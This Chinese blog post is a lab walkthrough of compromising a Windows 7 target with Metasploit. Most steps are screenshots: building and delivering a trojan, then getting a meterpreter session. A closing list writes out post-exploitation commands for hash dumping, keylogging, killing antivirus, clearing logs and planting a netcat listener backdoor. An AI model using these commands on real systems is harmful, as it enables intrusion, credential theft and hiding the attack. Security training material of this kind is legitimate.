 ```yaml
---
layout:     post
title:      msf入侵windows基本实践
subtitle:   msf入侵win7
date:       2021-03-19
author:     BlackFrog-hub
header-img: img/msf_bg.jpg
catalog: true
tags:
    - msf
    - kali
      
---
```


##### 生成木马
![](http://blackfrog.top/img/trojan.png)

##### 利用`Python`快速生成一个`HTTPServer`
![](http://blackfrog.top/img/python_http.png)

##### 利用靶机访问我们刚刚使用`Python`开启的`HTTPServer`，并下载生成的`Trojan`
![](http://blackfrog.top/img/http.png)

##### 启动`msf`
![](http://blackfrog.top/img/qidong.png)

##### 设置`payload`,并`exploit & run`成功
![](http://blackfrog.top/img/set.png)

##### 将`Trojan`进程移动到其他指定的进程中，这样做的好处是可以给`meterpreter`一个相对稳定的运行环境
![](http://blackfrog.top/img/unkill.png)

##### 查看`route`信息
![](http://blackfrog.top/img/route.png)

##### 查看进程
![](http://blackfrog.top/img/ps.png)

##### Get目标主机`shell`隐藏，获取靶机信息
![](http://blackfog.top/img/get.png)

##### 查看`IP`
![](http://blackfrog.top/img/ip.png)

##### 添加新用户并加入`administrator`组
![](http://blackfrog.top/img/shell.png)

##### 下载靶机文件
![](http://blackfrog.top/img/get_file.png)

##### 关闭目标主机`Firewalls`
![](http://blackfrog.top/img/off_firewall.png)

##### 其他基本命令
-  `run post/windows/gather/smart_hashdump`  获取目标主机上用户的hash值
-  `run post/windows/capture/keylog_recorder`  键盘记录
-  `run killav` 结束目标主机上的杀毒软件相关进程
-  `clearev`  清除系统日志
-  `upload /usr/share/windows-binaries/nc.exe c:\\windows\\system32` 上传`nc.exe`到目标主机上 (注:`\\`)
-  `dir windows\\system32\\nc.exe`  查看
-  `execute -f nc -nvlp 3333`  执行nc.exe

